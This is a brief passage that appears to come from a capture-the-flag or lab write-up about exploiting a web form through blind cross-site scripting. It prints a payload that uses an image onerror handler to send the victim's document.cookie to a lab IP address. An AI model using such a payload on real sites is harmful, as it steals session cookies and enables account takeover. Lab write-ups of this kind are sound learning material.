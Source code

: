 ![](./IMG/9.png)


## Exploit 

> Since it will handle the email in backend, and It has opportunity that backend manager will receive the content with the value of service column.
> Hence, I will try blind injection (blind xss).

- [Testing for blind XSS](https://portswigger.net/burp/documentation/desktop/testing-workflow/input-validation/xss/testing-for-blind-xss)

> Payload 

```
<img src=x onerror=fetch('http://10.10.14.207/?c='+document.cookie);>
```

![](./IMG/13.png)

> URL Encoding
